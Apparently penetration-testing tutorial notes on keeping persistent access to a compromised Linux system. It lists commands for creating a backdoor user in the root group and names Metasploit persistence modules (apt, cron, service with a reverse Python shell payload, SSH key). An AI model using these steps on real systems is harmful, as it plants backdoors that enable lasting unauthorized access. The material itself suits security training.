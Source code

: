 
+ Persistence consists of techniques that adversaries use to keep access to systems across restarts, changed credentials, and other interruptions that could cut off their access.

+ Gaining an initial foothold is not enough, you need to setup and maintain persistent access to your targets.

+ The persistence techniques we can utilize will depend on the target configuration.

+ We can utilize various post exploitation persistence modules to ensure that we always have access to the target system.

### How to establish persistence ?

1. Gain initial access. In our case, we'll be exploiting `SSH`.

2. Upgrade the session to a `meterpreter` session.

3. Escalate privileges if required.

4. We'll now create a user which we can use to gain access to the system whenever we want. This requires the system to be running services like SSH or FTP, so that we can authenticate legitimately with the system.
```
useradd -m <username> -s /bin/bash
```

5. Now we'll add the backdoor user to `root` group, so that the user inherits permissions of the root group. 
```
usermod -aG root <username>
```

6.  Check if the user was added or not.
```
groups root
```

### `MSF` modules for persistence

1. Establishing persistence by running payload when package manager is used.
```
use exploit/linux/local/apt_package_manager_persistence
```
- This module is not ideal, as it will only run the payload when the package manager is run.

2. Using cron jobs to establish persistence.
```
use exploit/linux/local/cron_persistence 
```
- Cron Jobs can be easily detected by system administrators. 
- Default time is set to run every 60 secs.
- This might not work everytime.

3. Using service persistence. This will create a service and mark it for auto-restart.
```
use exploit/linux/service_persistence
```
- Set payload to `cmd/unix/reverse_python`

4. Creating a `SSH` key pair to establish persistence. This module will add an SSH key to a specified user and allow remote login via SSH. 
```
use post/linux/manage/sshkey_persistence
```





